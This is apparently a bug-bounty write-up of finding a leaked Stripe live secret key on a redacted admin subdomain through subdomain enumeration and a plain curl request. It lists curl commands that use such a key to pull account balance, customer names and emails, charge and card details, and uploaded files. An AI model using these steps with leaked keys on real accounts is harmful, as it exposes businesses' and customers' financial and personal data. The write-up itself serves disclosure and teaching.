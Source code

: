 # [ **Leaking stripe live token ]**

1. He collected all the subdomains using tools like `Subfinder` and `Amass`. After that, he filtered the live subdomains using `httprobe`.
2. Found a subdomain [http://admin.redacted.com](https://t.co/PxDyizfiSQ) which redirects the **user/admin** to google OAuth
    1. Your browser can execute JavaScript, which can, in turn, change the document; in this case, it redirects to **google OAuth.**
3. After this, he used curl for [http://admin.redacted.com](https://t.co/PxDyizfiSQ) to get the plain original output and nothing else.

⇒ **Leaking stripe live token** 

![image](https://user-images.githubusercontent.com/108616378/219940019-ba476ee4-4820-42a4-8d50-a08845dd1a40.png)

### **⇒  [ Exploiting Stripe Tokens ]**

After checking the `Keyhacks` and the `Stripe API Documentation`. I was able to get a bunch of information, including:

```bash
# Balance: It retrieves the current balance in the Stripe account.
curl [https://api.stripe.com/v1/balance](https://t.co/NrdwZz2XOp) -u sk_live_<Secret-Key>:
# Customers: It retrieves the customer’s data and tracks payments. Including the Customer’s Name, Email, IP used, and many more
curl https://api.stripe.com/v1/customers -u sk_live_<Secret-Key>:  
#Charges: It retrieves charges and card information. One such card details are also attached below. Stripe only gives you the last four digits.
curl https://api.stripe.com/v1/charges -u sk_live_<Secret-Key>:
#Files: Retrieves Files that the admin uploads. Files generally have invoices, disputes, events, balances, bank accounts, tokens, charges, and more.
curl https://api.stripe.com/v1/files -u sk_live_<Secret-Key>:
```

![image](https://user-images.githubusercontent.com/108616378/219940030-24b3095a-47cf-4278-b87d-66ef3830bbe7.png)

